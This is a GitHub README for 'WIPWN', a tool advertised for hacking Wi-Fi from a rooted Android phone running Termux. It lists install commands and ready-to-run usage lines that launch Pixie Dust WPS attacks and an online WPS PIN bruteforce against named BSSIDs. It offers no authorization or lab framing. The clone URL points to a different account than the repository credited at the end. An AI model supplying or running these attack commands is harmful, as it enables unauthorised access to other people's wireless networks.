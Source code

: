 # WIPWN

![Logo](images/image.png)

### Hack wifi using Termux (rooted)
    
- [Requirements]
  - [Python](https://www.python.org)
  - [Pixiewps](https://www.kali.org/tools/pixiewps/)
  - [Wpa-supplicant](https://wiki.archlinux.org/title/wpa_supplicant)
 
### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw -y
git clone [https://github.com/Remixtj012/Remixtj.Wifi]
cd wipwn
chmod +x main.py
```

#### Help : ```sudo python main --help```
#### Example : ```sudo python main.py -i wlan0 -K```

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- ```sudo python main.py -i wlan0 -K```
- ```bash wipwn.sh```
- - Start Pixie Dust attack on a specified BSSID:
`sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---

### ❤️ Thanks for stars and forks
[![Stargazers repo roster for @anbuinfosec/wipwn](https://reporoster.com/stars/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/stargazers)
[![Forkers repo roster for @anbuinfosec/wipwn](https://reporoster.com/forks/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/network/members)
